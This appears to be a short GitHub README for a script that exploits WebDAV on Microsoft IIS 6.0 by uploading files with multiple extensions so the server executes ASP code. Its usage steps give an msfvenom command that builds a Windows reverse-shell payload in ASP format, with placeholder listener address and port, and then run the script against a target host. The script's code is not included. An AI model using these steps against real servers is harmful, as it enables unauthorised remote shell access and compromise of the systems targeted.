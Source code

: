 # WebDAV Upload Bypass

Simple Script to exploit Webdav running on Microsoft IIS 6.0 incorrectly executing ASP code in files that have multiple file extensions. 
**TO USE:**
Generate msfvenom payload: e.g. msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f asp > <filename>
Then run: ./script <host> <filename>
